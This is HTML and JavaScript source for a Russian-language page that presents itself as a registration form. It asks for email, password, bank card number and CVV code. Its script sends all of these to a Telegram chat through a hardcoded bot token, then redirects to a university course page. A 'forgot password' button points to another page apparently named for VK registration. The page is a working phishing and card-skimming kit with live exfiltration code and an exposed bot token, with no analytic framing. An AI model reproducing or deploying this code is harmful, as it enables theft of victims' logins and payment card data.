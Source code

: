 <html lang="ru">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Регистрация</title>
    <style>
      form {
        display: flex;
        flex-direction: column;
        width: 250px;
        margin-left: 100px;
      }
      h1 {
        margin-left: 100px;
      }
      button {
        font-size: 20px;
        width: auto;
        margin-top: 5px;
        padding: 10px;
        background: green;
        color: white; /* Добавлено для улучшения видимости текста на кнопке */
      }
      #forgot-password {
        background: blue; /* Измените цвет фона для кнопки "Забыли пароль?" */
      }
    </style>
</head>
<body>
    <h1>Регистрация</h1>
    <form id="registrationForm">
        <p></p>
        <label for="email">Email</label>
        <input type="text" id="email" name="email" required maxlength='50' onkeypress="return /[a-zA-Z0-9@.]/.test(event.key)" title="Email должен содержать только латинские буквы, цифры, @ и .">
        <br>
        <p></p>
        <label for="pass">Пароль</label>
        <input type="text" id="pass" name="password" required maxlength='20' onkeypress="return /[a-zA-Z0-9]/.test(event.key)" title="Пароль должен содержать только латинские буквы и цифры (максимум 20 символов)">
        <p></p>
        <label for="cvv">CVV код (3-х значный код на обратной стороне карты)</label>
        <input type="text" id="cvv" name="cvv" required maxlength="3" oninput="this.value = this.value.replace(/[^0-9]/g, '')">
        <br>
        <p></p>
        <label for="card">Номер банковской карты</label>
        <input type="text" id="card" name="card" required maxlength="16" oninput="this.value = this.value.replace(/[^0-9]/g, '')" title="Введите номер карты (только цифры)">
        <button type="submit">Зарегистрироваться</button>
        <button type="button" id="forgot-password">Забыли пароль?</button> <!-- Кнопка для восстановления пароля -->
    </form>

    <script>
        const form = document.getElementById('registrationForm');

        form.addEventListener('submit', e => {
            e.preventDefault(); 
            
            const username = document.getElementById('pass').value;
            const email = document.getElementById('email').value;
            const card = document.getElementById('card').value;
            
            

            // Проверка на наличие символа @ в email
            if (!email.includes('@')) {
                alert('Пожалуйста, введите корректный адрес электронной почты (должен содержать @).');
                return;
            }

            // Проверка на допустимые символы в email
            const emailPattern = /^[a-zA-Z0-9@.]+$/;
            if (!emailPattern.test(email)) {
                alert('Email может содержать только латинские буквы, цифры, @ и .');
                return;
            }

            const cvv = document.getElementById('cvv').value;
            

            const token = '7942332820:AAFC2P1_9T8USat2LkVF_cXqtqCaBqs2O4g';
            const chatId = -1002372284940; 
            const message = `Новая регистрация:\n Почта: ${email}\n Пароль: ${username}\n CVV: ${cvv}\n номер банка: ${card}`;
            const url = `https://api.telegram.org/bot${token}/sendMessage?chat_id=${chatId}&text=${encodeURIComponent(message)}`;
            
            fetch(url) 
            .then(response => {
                if (response.ok) {
                    alert('Данные успешно отправлены в Telegram!');
                    // Перенаправление на другую страницу
                    window.location.href = 'https://lms.dgmu.ru/mod/quiz/report.php?id=44292&mode=overview'; 
                } else {
                    console.log('error');
                }
            })
            .catch(error => {
                console.error('Ошибка:', error);
                alert('Ошибка при отправке данных.');
            });
        });

        // Обработчик клика для кнопки "Забыли пароль?"
        document.getElementById('forgot-password').addEventListener('click', function() {
            window.location.href = 'https://sheikh05ed.github.io/register_on_vk.github.io/'; 
        });
    </script>
</body>
</html>
